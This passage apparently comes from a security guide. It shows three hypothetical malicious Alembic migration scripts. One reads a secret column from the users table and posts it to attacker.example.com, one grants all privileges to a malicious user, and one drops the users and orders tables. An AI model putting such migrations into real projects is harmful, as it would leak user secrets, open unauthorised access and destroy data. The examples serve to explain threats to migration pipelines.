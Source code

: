 ### 3. Hypothetical Malicious Migration Script Examples

Let's examine some examples of how an attacker might inject malicious code:

**Example 1: Data Exfiltration**

```python
from alembic import op
import sqlalchemy as sa
import requests  # Malicious import

def upgrade():
    op.execute(
        "CREATE TABLE IF NOT EXISTS exfil_data (data TEXT)"
    )
    # Steal data from a sensitive table
    op.execute(
        "INSERT INTO exfil_data (data) SELECT secret_column FROM users"
    )
    # Send the data to an attacker-controlled server
    conn = op.get_bind()
    result = conn.execute(sa.text("SELECT data FROM exfil_data"))
    for row in result:
        requests.post("https://attacker.example.com/exfil", data=row[0])

    op.execute("DROP TABLE exfil_data") # Attempt to cover tracks

def downgrade():
    pass # Downgrade often left empty or minimal
```

**Example 2: Privilege Escalation**

```python
from alembic import op

def upgrade():
    # Grant all privileges to a malicious user
    op.execute("GRANT ALL PRIVILEGES ON ALL TABLES IN SCHEMA public TO malicious_user")
    op.execute("GRANT ALL PRIVILEGES ON ALL SEQUENCES IN SCHEMA public TO malicious_user")
    op.execute("GRANT ALL PRIVILEGES ON ALL FUNCTIONS IN SCHEMA public TO malicious_user")

def downgrade():
    pass
```

**Example 3: Dropping Tables**

```python
from alembic import op

def upgrade():
    op.execute("DROP TABLE users CASCADE")  # Drop a critical table and dependent objects
    op.execute("DROP TABLE orders CASCADE")

def downgrade():
    pass
```
